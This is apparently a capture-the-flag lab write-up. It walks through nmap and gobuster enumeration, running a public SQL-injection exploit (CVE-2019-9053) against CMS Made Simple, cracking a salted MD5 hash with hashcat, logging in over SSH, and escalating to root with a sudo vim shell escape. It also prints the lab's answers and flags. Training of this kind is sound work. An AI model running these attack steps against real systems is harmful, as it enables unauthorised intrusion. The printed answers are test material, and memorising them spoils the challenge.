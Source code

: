 
#security #enumeration #privesc 

---

> Running an nmap scan against the target machine.

```
└─$ nmap -sC -sV 10.10.77.219 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 08:41 EDT
Nmap scan report for 10.10.77.219
Host is up (0.079s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.5.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.76 seconds

```

> We see there are 2 services below port 1000, `tcp` and `http`.
> We see there is 1 service above port 1000, namely `2222` running `ssh`.

###### How many services are running under port 1000? : `2` .

###### What is running on the higher port? : `ssh` .

> Opening the IP address in the browser, we see an apache page.
> Scanning through we see nothing special, so i performed a directory enumeration attack.

> The IP address changed because the machine terminated, use the target IP address.
```shell
gobuster dir -u http://10.10.48.197:80 -w /usr/share/wordlists/dirb/common.txt
```

> See there is a directory `/simple` that we can access.
> Opening it we see this page.

![](./screenshots/simple.png)

> Searching for CMS made simple on exploit db we see multiple entires with multiple versions.
> Scrolling down in the `/simple` directory, we see the version it is using.

![](./screenshots/cms.png)

> `CMS Made Simple 2.2.8`.
> On exploitdb, wee an exploit for versions less than `2.2.10` with `CVE-2019-9053`, relating to SQL injections. [exploit](https://www.exploit-db.com/exploits/46635).

###### What's the CVE you're using against the application?  : `CVE-2019-9053`.

###### To what kind of vulnerability is the application vulnerable? : `SQLi` .

> Downloading the exploit to run against the target machine.
> After downloading, we give it execute permissions.

```
chmod +x 46635.py
```

> We see in the exploit the following comments on how to run.

![](./screenshots/exploit.png)

> Following the third option to crack with passowrd:

```
python 46635.py -u http://10.10.48.197/simple --crack -w /usr/share/wordlists/rockyou.txt
```

> Letting it run, we get errors for the print statements.
> Opening the file, and adding brackets after the print statements.
> Trying to run, we get an error in the `crack_password()` function, so i comment it out and will crack the password myself.
> Now it runs, and we get the following data:

![](./screenshots/exploit-1.png)

> We have a salt and a password that are both hashed.
> Going to [hash-analyzer](https://www.tunnelsup.com/hash-analyzer/).

![](./screenshots/hash.png)

> We add the salt after the password itself and add a colon between to see that it is of type MD5 or MD4. 
> To confirm, we remove the salt and see that the password itself is also MD5 or MD4.
> The salt could be appended in the beginning, which is why we have to check both scenarios.

> Now that we know the password is MD5 with a salt, we use hashcat to crack it.
> We write the hash:salt into a file, `pass`.
> Then we look in hashcat for the mode that follows this procedure through `hashcat --help`.

![](./screenshots/hashcat.png)

> We see that it has mode = 10 where the pass is first then the salt.
> Running the command: 

```
└─$ hashcat -m 10 -a 0 -O 1dac0d92e9fa6bb2:0c01f4468bd75d7a84c7eb73846e8d96 /usr/share/wordlists/rockyou.txt
```
> Specifying the mode to 10, specifying the attack mode `-a 0` to be fastest, and specifying the wordlist `rockyou.txt`.
> Doesn't work, so we try the other mode `20`.

```
└─$ hashcat -m 20 -a 0 -O 1dac0d92e9fa6bb2:0c01f4468bd75d7a84c7eb73846e8d96 /usr/share/wordlists/rockyou.txt
```


![](./screenshots/hashcat-1.png)

> We see the password is `secret`.

###### Whats the password? : `secret` .

> We have from above the username `mitch`.
> Trying to login to `ssh` with the credentials `mitch:secret`.

> IP changed because machine terminated, use the target machine IP.
```
ssh mitch@10.10.253.222
```
> But we don't get any connection, this is because the `ssh` port is not the default one as we have seen through `nmap`, it is 2222.

```
ssh mitch@10.10.253.222 -p 2222
```
> Entering the password when asked.

> Listing the contents, we see the `user.txt` file. Opening the file to see contents.

```
└─$ cat user.txt
G00d j0b, keep up!
```

###### What's the user flag? : `G00d j0b, keep up!` .

> To check for other users, we traverse one directory up to go the `/home` directory and view the different user folders using `ls`.

```shell
$ pwd
/home/mitch
$ cd ..
$ ls
mitch  sunbath
$ 
```

> We see there is another user `sunbath`.
###### Is there any other user in the home directory? What's its name? : `sunbath` .

> First thing we do to escalate privileges, we see if we can run as the current user any binaries.

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```

> We see that we can run as root `vim`.

###### What can you leverage to spawn a privileged shell? : `vim` .

> Going to GTFObins and searching for `vim`, we go to the `sudo` section.

![](./screenshots/gtfo.png)

> We see that we can create a root shell using vim and the given command.

```shell
sudo vim -c ':!/bin/sh'
```

> Running this command we see the shell change to root user.
> Changing the directory to `../../root`, we see the file `root.txt`.
> Opening it to view its contents.

```shell
# cat root.txt
W3ll d0n3. You made it!
```

###### What's the root flag? : `W3ll d0n3. You made it!` .

---
